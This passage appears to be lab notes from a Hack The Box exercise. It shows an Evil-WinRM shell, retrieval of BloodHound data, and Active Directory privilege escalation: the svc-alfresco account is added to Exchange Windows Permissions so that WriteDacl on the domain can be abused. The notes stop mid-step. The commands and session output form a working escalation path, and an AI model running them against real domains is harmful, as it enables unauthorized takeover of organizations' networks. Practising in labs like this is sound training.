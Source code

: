 ```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd c:\windows\tasks
*Evil-WinRM* PS C:\windows\tasks> ls


    Directory: C:\windows\tasks


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       12/28/2021   5:50 PM          15241 20211228175030_BloodHound.zip
-a----       12/27/2021  11:46 PM         227596 jawchecks.txt
-a----       12/28/2021   5:50 PM          23725 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
-a----       12/27/2021  11:57 PM            520 upchecks.txt


*Evil-WinRM* PS C:\windows\tasks> download 20211228175030_BloodHound.zip
Info: Downloading C:\windows\tasks\20211228175030_BloodHound.zip to 20211228175030_BloodHound.zip

                                                             
Info: Download successful!

*Evil-WinRM* PS C:\windows\tasks> 

```
from bloddhound, search for myself which is svc-alfresco
noticed that svc-alfresco -> SERVICE ACCOUNTS -> priviledged it accounts -> ACCOUNT OPERATORS -> has GenericAll on many grps (everytime check outbound control right first, if dont have, then check 'first degree membership')

Set starting point as ACCOUNT OPERATORS, look for path to domian admin
Noticed: ACCOUNT OPERATORS -> GenericAll ONEXCAHNGE WINDOWS PERMISSSIONS -> has WriteDacl on HTB.LOCAL -> Contains Domain Admin.

Step 1: abuse ACCOUNT OPERATORS -> GenericAll on EXCAHNGE WINDOWS PERMISSSIONS 
~ GenericAll means i can add any user to EXCHANGE WINDOWS PERMISSIONS, 
~ Since i only have svc-alfresco credential, i'll add svc-alfresco to EXCHANGE WINDOWS PERMISSION.
```
net group "EXCHANGE WINDOWS PERMISSIONS" svc-alfresco /add /domain

```
```
*Evil-WinRM* PS C:\users\administrator> net group "EXCHANGE WINDOWS PERMISSIONS" svc-alfresco /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\users\administrator> net group "EXCHANGE WINDOWS PERMISSIONS" /domain
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
svc-alfresco
The command completed successfully.

*Evil-WinRM* PS C:\users\administrator> 

```
Step 2: abuse EXCAHNGE WINDOWS PERMISSSIONS -> has WriteDacl on HTB.LOCAL. follow bloodhound instractions 
(at first, didnt work, reason is didnt see set -domain, 
first check, do i still have permissions, am i still part of the group, no, then to add in again